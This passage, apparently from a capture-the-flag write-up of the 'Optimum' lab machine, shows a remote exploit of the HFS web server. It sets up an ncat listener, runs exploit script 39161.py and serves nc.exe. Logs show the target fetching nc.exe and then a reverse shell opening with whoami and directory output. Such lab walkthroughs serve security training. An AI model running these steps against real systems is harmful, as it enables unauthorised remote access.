 
**# Terminal 2 / ncat:**

We need to configure the file to send back to our own address and stand up a listener for the server to connect back to. To configure the file, replace the IP and port on lines 35 & 36 respectively. For the latter task I use `ncat`, listening on port `8080`.

```bash
# ncat -nvl 8080
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
```

### Exploiting the HFS:

Now we just need to run the exploit. I had to run this 2 times: the first time made a connection back to download `nc.exe` from the web server but did not spawn a shell; the second time did spawn a shell.  This is in-line with a note in the exploit file.

**# Terminal 3 / exploit:**

```bash
# python2 ./39161.py 10.10.10.8 80
# python2 ./39161.py 10.10.10.8 80
```

**# Terminal 1 / http server, exec 1:**

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [03/May/2020 12:40:02] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [03/May/2020 12:40:02] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [03/May/2020 12:40:02] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [03/May/2020 12:40:02] "GET /nc.exe HTTP/1.1" 200 -
```

**# Terminal 2 / ncat, exec 2:**

```bash
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.8.
Ncat: Connection from 10.10.10.8:49162.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami && hostname
whoami && hostname
optimum\kostas
optimum

C:\Users\kostas\Desktop>dir  
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

10/05/2020  07:19     <DIR>          .
10/05/2020  07:19     <DIR>          ..
18/03/2017  03:11            760.320 hfs.exe
18/03/2017  03:13                 32 user.txt.txt
               2 File(s)        760.352 bytes
               2 Dir(s)  31.882.088.448 bytes free
```
